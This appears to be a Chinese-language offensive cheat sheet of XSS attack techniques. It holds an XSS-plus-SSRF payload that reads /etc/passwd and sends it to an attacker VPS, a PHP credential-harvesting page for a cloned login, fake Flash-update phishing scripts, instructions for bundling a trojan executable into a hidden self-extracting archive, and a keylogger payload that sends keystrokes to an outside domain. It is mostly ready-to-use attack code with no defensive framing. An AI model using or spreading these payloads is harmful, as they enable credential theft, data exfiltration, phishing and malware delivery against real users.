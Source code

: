   #### XSS+SSRF读取服务器文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
	    document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
	}
		}
	xmlhttp.open("POST","request.php",true);
	xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
	xmlhttp.send("url=file:///etc/passwd");
	">
  #### XSS克隆钓鱼
	保存js&css到服务器，登录action改为接受密码的文件action="./pass.php"
```php
    <?php //php
      $user=$_POST['username'];
      $pass=$_POST['password'];
      $file=fopen('pass.txt','a+');
      fwrite($file,$user."|"."pass" . "\n");
      fclose($file);
      echo "<script>window.location.href=\"http://192.168.0.1\"</script>\n";
    ?>
```
	构造payload
	<script>window.location.href="http://192.168.0.1/login.html"</script>
	php –S 0.0.0.0:8080 –t ./
  #### 伪造页面钓鱼
	方法1
	https://github.com/r00tSe7en/Fake-flash.cn
	添加xss平台模块
	window.alert = function(name){
	var iframe = document.createElement("IFRAME");
	iframe.style.display="none";
	iframe.setAttribute("src",'data:text/plain');
	document.documentElement.appendChild(iframe);
	window.frames[0].window.alert(name);
	iframe.parentNode.removeChild(iframe);
	}
	alert("您的FLASH版本过低，尝试升级后访问该页面！");
	window.location.href="http://www.flash.com";
	制作自解压捆绑
	一个马.exe，一个正常exe，全选，winrar添加到压缩文件，选择创建自解压格式压缩文件，高级->自解压选项，设置解压路径，c:\windows\temp\，设置->解压后运行两个exe文件，模式全部隐藏，更新，解压并更新文件，覆盖所有文件。
	ResourceHacker修改文件图标
	方法2
	if(empty($_COOKIE['flash'])){
		    echo '<script>alert("你当前计算机的Flash软件已经很久未更新，将导致无法正常显示界面内容，请下载安装最新版本！");window.location="http://www.flash.cn.xx.com/"</script>';
		    setcookie("flash","true",time()+30*2400);
	}
  #### 键盘记录
  	<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
  #### 更多PAYLOAD
  	http://www.xss-payloads.com/payloads-list.html?a#category=all
  #### 更多XSS盲打工具
  	https://github.com/s0md3v/XSStrike
  	https://github.com/epsylon/xsser
  	https://github.com/hahwul/dalfox